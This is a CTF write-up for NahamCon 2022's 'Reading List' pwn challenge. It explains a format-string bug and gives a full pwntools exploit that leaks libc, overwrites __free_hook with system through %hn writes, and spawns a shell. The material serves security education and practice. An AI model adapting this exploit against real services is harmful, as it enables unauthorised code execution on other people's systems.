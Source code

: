 ```yaml
---
title: "[Pwn] Reading List [Nahamcon CTF 2022]"
date: 2022-05-06 22:59:00
---
```


# 0x0 Introduction

Author: @M_alpha#3534

Try out my new reading list maker! Keep track of what books you would like to read.

files: [reading_list](reading_list), [libc-2.31.so](libc-2.31.so)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 0x2 Vuln

the main vuln in this program is in the `sym.print_list`, it direct print what exactly in the heap. This allow us to have arbitrary read and write in the memory space.

```
sym.imp.printf(*(_obj.booklist + var_4h * 8));
```

Since all the protection is on, the simplest way to do this program is to overwrite `__free_hook` to `system`. Then, when we call `free("/bin/sh")`, `system("/bin/sh")` will be called and we will get a shell.


# 0x3 Exploit

credit: @Green-Avocado

```
libc = ELF('libc-2.31.so')

io = start()

io.sendlineafter(b"What is your name: ", b"")

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", b"%23$p")

io.sendlineafter(b"> ", b"1")
io.recvuntil(b"1. ")
libc.address = int(io.recvline(), 0) - libc.libc_start_main_return

info("LIBC: " + hex(libc.address))

io.sendlineafter(b"> ", b"4")
io.sendlineafter(b"What is your name: ", flat([
    libc.sym['__free_hook'] + 0,
    libc.sym['__free_hook'] + 2,
    libc.sym['__free_hook'] + 4,
    ]))

fmt = ""
written = 0
to_write = 0

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system']) % 0x10000}c%22$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system'] >> 0x10) % 0x10000}c%23$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system'] >> 0x20) % 0x10000}c%24$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", b"/bin/sh")

io.sendlineafter(b"> ", b"3")
io.sendlineafter(b": ", b"5")

io.interactive()
```


# 0x2 Flag

None